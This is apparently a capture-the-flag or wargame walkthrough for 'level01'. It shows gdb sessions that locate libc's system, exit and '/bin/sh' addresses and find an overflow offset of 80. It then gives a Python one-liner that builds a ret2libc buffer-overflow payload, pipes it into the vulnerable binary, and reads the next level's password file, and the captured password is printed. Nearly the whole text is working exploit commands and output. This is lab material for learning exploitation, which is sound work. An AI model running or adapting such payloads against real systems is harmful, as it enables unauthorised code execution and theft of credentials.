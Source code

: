 # gdb:
	> b main
	> r
	> info proc map
<<< Start Addr   End Addr       Size     Offset objfile
<<< ...
<<< 0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
<<< ...
	> p system
<<< $1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
	> p exit
<<< $2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
	> c
### https://wiremask.eu/tools/buffer-overflow-pattern-generator/
	> r < <(python -c "print 'dat_wil\n' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9'")
<<< Program received signal SIGSEGV, Segmentation fault.
0x41306141 in ?? ()
Overflow at offset 80

exit gdb

# bash:
	> strings -a -t x /lib32/libc-2.15.so | grep "/bin/sh"
<<< 15d7ec /bin/sh

### "/bin/sh" = 0xf7e2c000 + 15d7ec = F7F897EC

	> python -c "print 'dat_wil\n' + 'A'*80 + '\xf7\xe6\xae\xd0'[::-1] + '\xf7\xe5\xeb\x70'[::-1] + '\xF7\xF8\x97\xEC'[::-1]" > /tmp/payload01
	> cat /tmp/payload01 - | ./level01
	> cat /home/users/level02/.pass
<<< PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
